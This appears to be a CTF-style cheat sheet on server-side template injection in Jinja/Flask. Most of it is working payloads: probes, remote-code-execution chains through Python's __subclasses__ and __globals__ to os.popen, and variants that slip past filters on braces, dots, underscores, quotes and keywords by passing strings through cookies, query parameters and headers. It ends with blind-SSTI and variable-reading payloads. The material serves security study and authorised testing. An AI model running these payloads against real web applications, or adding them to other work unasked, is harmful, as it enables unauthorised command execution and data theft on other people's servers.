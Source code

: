 # Server-side Template Injection

## Jinja

### Basic injection

`{{7*7}}`

`{{config}}`

### RCE

The main goal of RCE through SSTI is to climb up the Python object hierachy, target is `__globals__.__builtins__.__import__`. 

Method 1:
1. Get `__class__` of any object
2. Get base Object class from the following *lists*
	* `__mro__`
		* Usually, the last item is the base Object.
	* `__bases__`
		* Usually, the only item is the base Object.
3. Get `__subclasses__()` and find a function that belongs to os or subprocess
	* `__subclasses__()` returns a list, to find the proper index:
		* Write a simple script (split output by comma, search for desired function's index)
		* CTRL+F and search "class", hit Enter until you reach desired function (index might be slightly off but can be faster than scripting)
		* Use Burp Intruder to fuzz (fast but overkill???)
4. The `__globals__` dict is in `__init__`
	* It should have `popen` (os) or `check_output` (subprocess)

> In Python 2, `string` is not directly under `object`, so `__base__[0]` twice

Method 2:
1. Get `__init__` of a Jinja object (self, cycler, joiner, namespace)
2. Get `__globals__`, a dict that has builtins at key `__builtins__`
3. `__builtins__` has `__import__` which we can use to import `os` 
	* Besides `__import__`, `__builtins__` also can have other functions like read(), eval() etc
	* It's however possible to set `__builtins__` to None, so this method is not foolproof
	* This method is more useful if you need to import certain modules that have the flag, rather than plain RCE


*Examples*

```py
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{''.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```

### Filter bypass

#### No {{ or }}

```py
{% print self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] %}
```

#### [^/]

`werkzeug.url_fix` converts `\` into `/` (dependent on source code)

#### [^\.]

```py
{{self["__class__"]}}
{{self|attr("__class__")}}

{{''['__class__']['__mro__'][1]['__subclasses__']()[117]["__init__"]["__globals__"]["popen"]("ls")["read"]()}}
{{self|attr("__init__")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("ls")|attr("read")()}}
```

#### [^_]

```py
{{self["\x5f\x5fclass\x5f\x5f"]}}
{{self|attr("\x5f\x5fclass\x5f\x5f)}}
```

#### [^'"]

This one is more advanced. We can exploit the built-in request Object in Flask to pass in any strings we like.

For example: 
```py
{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]() }}
```

`http://url.com/?class=__class__&subclasses=__subclasses__`

#### Cookies

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.cookies.f](request.cookies.cmd).read()}}
(Cookies: f=popen; cmd=ls)
```

##### GET query params

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.args.f](request.args.cmd).read()}}
(/?f=popen&cmd=ls)
```

Other ways to do this:
* POST (request.values.f)
* Headers (request.headers.f)

#### Word blacklist

```py
{{()|attr(request.cookies.f|format(request.cookies.a))|attr(request.cookies.mro)[-1]}}
(Cookies: f=__cl%sss__; a=a; mro=__mro__)
```

#### [^\[\]]

```py
{{''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(117).__init__.__globals__.__getitem__(request.cookies.function)(request.cookies.cmd).read()}}
(Cookies: function=popen; cmd=ls)
```

#### [^'"\.0-9]

```py
{{lipsum[(dict(__globals__=x)|list)[False]][(dict(os=x)|list)[False]][(dict(popen=x)|list)[False]]([(dict(cat=x)|list)[False]|center,(dict(galf=x)|list)[False]|reverse]|join)[(dict(daer=x)|list)[False]|reverse]()}}
```

### Read variables

If the goal isn't RCE but to read the value of a variable of the current process (might not be possible via RCE), we can import main and expose the variable.

```py
{{ self.__init__.__globals__['__builtins__']['__import__']('__main__') }}
```

### Blind SSTI

Sometimes the app might not have proper output for you to get your results. This is similar to Blind SQLi.

```py
{% if self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] == 'r' %} 1 {% endif %}
```

Run it in Burp Intruder, don't forget to check for special characters like \n etc.


## References

* <https://chowdera.com/2020/12/20201221231521371q.html>
